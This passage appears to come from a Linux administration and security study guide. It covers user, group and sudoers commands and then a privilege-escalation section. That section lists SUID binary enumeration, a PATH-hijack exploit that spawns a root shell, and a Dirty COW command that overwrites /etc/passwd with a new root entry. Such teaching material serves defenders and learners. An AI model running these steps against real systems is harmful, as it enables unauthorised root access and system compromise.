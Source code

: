 
**User and Group Management:**
```bash
# User management
useradd -m -s /bin/bash username
usermod -aG sudo username
userdel -r username
passwd username

# Group management
groupadd groupname
usermod -aG groupname username
gpasswd -d username groupname

# Sudo configuration
visudo                    # Edit sudoers file safely
# Example sudoers entry
username ALL=(ALL:ALL) ALL
%admin ALL=(ALL) NOPASSWD: /usr/bin/systemctl restart apache2
```

### Common System Attacks - Detailed Analysis

#### Privilege Escalation Attacks

**1. Linux Privilege Escalation**

**SUID/SGID Exploitation:**
```bash
# Find SUID/SGID binaries
find / -perm -4000 -type f 2>/dev/null  # SUID
find / -perm -2000 -type f 2>/dev/null  # SGID

# Common vulnerable SUID binaries
/bin/ping
/usr/bin/passwd
/usr/bin/sudo
/bin/su

# Example: Exploiting vulnerable SUID binary
# If a custom SUID binary doesn't sanitize PATH
export PATH=/tmp:$PATH
echo '#!/bin/bash' > /tmp/ls
echo '/bin/bash' >> /tmp/ls
chmod +x /tmp/ls
./vulnerable_suid_binary  # If it calls 'ls' without full path
```

**Kernel Exploits:**
```bash
# Kernel version enumeration
uname -a
cat /proc/version
cat /etc/issue

# Check for known vulnerabilities
searchsploit linux kernel $(uname -r)

# Example: Dirty COW exploit (CVE-2016-5195)
# Affects Linux kernel versions 2.6.22 through 4.8.3
gcc -pthread dirty_cow.c -o dirty_cow
./dirty_cow /etc/passwd "root:$(openssl passwd -1 newpassword):0:0:root:/root:/bin/bash"
```
